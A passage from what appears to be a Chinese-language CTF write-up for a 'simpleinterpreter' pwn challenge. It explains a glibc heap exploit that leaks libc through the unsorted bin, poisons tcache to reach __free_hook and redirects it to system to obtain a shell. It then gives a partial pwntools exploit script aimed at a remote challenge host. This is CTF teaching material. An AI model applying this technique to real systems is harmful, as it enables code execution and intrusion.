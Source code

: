

### simpleinterpreter

程序实现一个c语言编译器，可以解析以下函数和类型。

![image-20231217171750751](https://cdn.jsdelivr.net/gh/chuw3i/picodemo@main/img/202505262111730.png)

那么我们利用malloc 和free 将一个chunk 释放到unsorted bin 中， 利用printf 打印出libc地址，然后tcache 的fd中写入free_hook，申请到free_hook 修改其为system，最后释放一个content为"/bin/sh\x00"的chunk 即可getshell。

```python
from pwn import*
p=remote("101.200.122.251",13410)
#p=process('./simpleinterpreter')
libc=ELF('./libc-2.27.so')
context.log_level='debug'
context.arch='amd64'
s = lambda data : p.send(data)
sl = lambda data : p.sendline(data)
sa = lambda text, data : p.sendafter(text, data)
sla = lambda text, data : p.sendlineafter(text, data)
r = lambda : p.recv()
rn = lambda x  : p.recvn(x)
ru = lambda text : p.recvuntil(text)
dbg = lambda text=None  : gdb.attach(p, text)
uu32 = lambda : u32(p.recvuntil(b"\xf7")[-4:].ljust(4, b'\x00'))
uu64 = lambda : u64(p.recvuntil(b"\x7f")[-6:].ljust(8, b"\x00"))
lg = lambda s : log.info('\033[1;31;40m %s --> 0x%x \033[0m' % (s, eval(s)))
pr = lambda s : print('\033[1;31;40m %s --> 0x%x \033[0m' % (s, eval(s)))
def mydbg():
	gdb.attach(p,"decompiler connect ida --host 192.168.2.193 --port 3662\nb *$rebase(0x0CCB)")
	pause()
#0x1c48
payload="""
int main(){
void *p1;
void *p2;
void *p3;
void *p4;
void *p5;
void *p6;
void *p7;
void *p8;
void *p9;
void *p10;
void *p11;
p1=malloc(0x100);
p2=malloc(0x100);
p3=malloc(0x100);
p4=malloc(0x100);
p5=malloc(0x100);
p6=malloc(0x100);
p7=malloc(0x100);
p8=malloc(0x100);
p9=malloc(0x100);
free(p1);
free(p2);
free(p3);
free(p4);
free(p5);
free(p6);
free(p7);
free(p8);
printf("%s",p8);
```